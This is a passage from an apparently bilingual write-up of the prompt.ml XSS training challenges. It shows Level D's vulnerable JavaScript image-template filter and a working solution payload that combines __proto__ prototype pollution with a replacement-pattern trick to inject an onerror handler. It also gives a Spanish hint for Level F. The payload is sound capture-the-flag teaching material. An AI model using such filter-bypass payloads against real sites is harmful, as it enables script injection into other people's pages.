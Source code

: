 ### Code
```
function escape(input) {
    // extend method from Underscore library
    // _.extend(destination, *sources) 
    function extend(obj) {
        var source, prop;
        for (var i = 1, length = arguments.length; i < length; i++) {
            source = arguments[i];
            for (prop in source) {
                obj[prop] = source[prop];
            }
        }
        return obj;
    }
    // a simple picture plugin
    try {
        // pass in something like {"source":"http://sandbox.prompt.ml/PROMPT.JPG"}
        var data = JSON.parse(input);
        var config = extend({
            // default image source
            source: 'http://placehold.it/350x150'
        }, JSON.parse(input));
        // forbit invalid image source
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}       
```

### Solution
`{"source": "--", "__proto__": {"source": "$`onerror=prompt(1)>"}}`

>[Top](#index)

## [Level E]

### No solution

## [Level F]
:es: Este nivel es similar al nivel 7, pero en este caso no podemos comentar en js, ya que el regex prohibe dichos comentarios, por lo que tenemos que usar comentarios de XML para poder hacerlos, tenemos primero que insertar un `<svg>` y hacer como antes.


[Level 0]: http://prompt.ml/0
[Level 1]: http://prompt.ml/1
[Level 2]: http://prompt.ml/2
[Level 3]: http://prompt.ml/3
[Level 4]: http://prompt.ml/4
[Level 5]: http://prompt.ml/5
[Level 6]: http://prompt.ml/6
[Level 7]: http://prompt.ml/7
[Level 8]: http://prompt.ml/8
[Level 9]: http://prompt.ml/9
[Level A]: http://prompt.ml/10
[Level B]: http://prompt.ml/11
[Level C]: http://prompt.ml/12
[Level D]: http://prompt.ml/13
[Level E]: http://prompt.ml/14
[Level F]: http://prompt.ml/15